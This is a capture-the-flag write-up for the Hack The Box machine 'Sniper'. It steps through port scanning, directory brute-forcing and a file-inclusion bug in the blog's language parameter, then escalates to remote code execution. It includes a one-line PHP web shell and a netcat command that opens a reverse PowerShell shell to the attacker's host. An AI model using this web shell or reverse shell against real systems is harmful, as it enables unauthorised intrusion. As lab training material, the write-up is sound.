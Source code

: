 https://app.hackthebox.com/machines/211

## Sniper - Explore and Nmapping

New machine, no hints or something suspicious from a first look.
So we'll beging with nmap
```bat
sudo nmap -p- --min-rate 10000 -oA nmap 10.10.10.151
```

![NMAP RESULTS](https://is-going-to-rick-roll.me/1639739248.png)

from the nmap results we can see we have
<br>
* 80 - TCP HTTP
* 135 - TCP MSRPC
* 139 - TCP netbios-ssn
* 445 - TCP microsoft-ds

First of all we already know It's running on windows.
and we have a web panel running on port 80, let's namp these specific ports.


```bat
sudo nmap -p 80,135,139,445 -sV -sC -oA nmap-specific 10.10.10.151
```


meanwhile the nmap is running we can try and login with SMB without a username/and password.

```bat
net view 10.10.10.151

System error 5 has occurred.

Access is denied.
```
Denied.

<br>

The nmap result.
![NMAP RESULT #2](https://is-going-to-rick-roll.me/1639739651.png)

<br>

alright, it semees we'll have to investigate the website, before we'll start gobuster to find all the pages.
checking what is the engine of the website.
http://10.10.10.151/index.php - works

gobuster script (using SecList Discovery/Web-Content/raft-small-words-lowercase)

```bat
sudo gobuster dir -w ../../Helpers/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -x php -o Sniper.txt -u http://10.10.10.151
```

In the website we have one page with two buttons and text, nothing too much

![website screenshot](https://is-going-to-rick-roll.me/1639741029.png)
<br>

Gobuster result show us we have much more pages than what we can see ->

```txt
/images               (Status: 301) [Size: 150] [--> http://10.10.10.151/images/]
/js                   (Status: 301) [Size: 146] [--> http://10.10.10.151/js/]
/index.php            (Status: 200) [Size: 2635]
/css                  (Status: 301) [Size: 147] [--> http://10.10.10.151/css/]
/user                 (Status: 301) [Size: 148] [--> http://10.10.10.151/user/]
/blog                 (Status: 301) [Size: 148] [--> http://10.10.10.151/blog/]
/.                    (Status: 200) [Size: 2635]
```
From here it looks like we found nothing except these pages, so we'll have to check them maually (or with tools if you have something good you trust)

After looking at each of the pages, the blog page is the one that has the most functions and maybe even vulnerabilities in the select language button. Lets send it over to Burp Suite.

![Burp Suite request](https://is-going-to-rick-roll.me/1639742702.png)
<br>
this is how the request looks like. and since this is requesting pages by the user selecting i think that this is how he implement this function

```php
include $_GET['lang'];
```
changing "?lang=" to test and it's redirecting us to a 404.

let's try fetching a system file with setting "?lang="'s value to "/windows/system.ini"

![found!](https://is-going-to-rick-roll.me/1639742931.png)
and... it worked. now let's see if we can LFI over SMB.

starting np

```bat
nc -lnvp 445
```

changing the get header in burp to ->
```txt
GET /blog/?lang=\\10.10.14.11\test HTTP/1.1
```

and we've got a request from the server.

![nvlvp result](https://is-going-to-rick-roll.me/1639746488.png)

###### Setting our new work directory

to continiue we'll have to modify smb.conf
```bat
sudo nano /etc/samba/smb.conf
```

add the following lines:
```conf
[htb]
path = /home/kali/htb/machines/sniper/www/
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

After modifyind the conf file you'll have to restart smb's services ->

```bat
service smbd restart

service nmbd restart
```

create new work dir
```bat
mkdir ~/htb/machines/sniper/www

cd ~/htb/machines/sniper/www

chmod 0555 ./  
```

check if our smb server is up and running, we can check it using the following command
```bat
smbmap -H 10.10.14.11
```

![smb server status](https://is-going-to-rick-roll.me/1639760640.png)


#### Setting up the RCE script

After we maked sure all the services are up and running we can make a new file in out new work directory named rcesrc.php

```bat
sudo nano rcesrc.php
```

and we'll write the next code into it.

```php
<?php system($_REQUEST['rce']); ?>
```

Now let's try it out and the parameter for lang that we are sending now will be <mark>\\10.10.14.5\htb\notrce.php&rce=whoami
</mark> (change the IP aadress with your own one)

form the result we can see that the RCE has worked and we executed code on the machine.
![burp result](https://is-going-to-rick-roll.me/1639760979.png)

Now before we'll continue we'll check what can we run by changing the parameter from "whoami" to "Powershell+$executionContext.SessionState.LanguageMode"

looking at the output we get "ConstrainedLanguage" this "tells" us that everything that interacts with .NET might will be blocked.

Now let's move the nc.exe file from the shares folder to our work directory that we setup earlier

```bat
sudo cp ~/../../usr/share/windows-resources/binaries/nc.exe .
```

Now, we can call this file to get it executed by the machine and get a shell. to do so we'll change the parameter again to nc.exe and send this connection back to us.


(make sure to encode this url in burp suite otherwise it will not execute)
```s
rce=\\10.10.14.11\htb\nc.exe 10.10.14.11 9001 -e powershell
```

and run netcat listner on the same port
```bat
sudo nc -lnvp 9001
```


![we've got connected!](https://is-going-to-rick-roll.me/1639761882.png)

congrats we have reverse shell!


##### Exploring the machine



<br><br><br><br>

###### All files and results cna be found in the "results" folder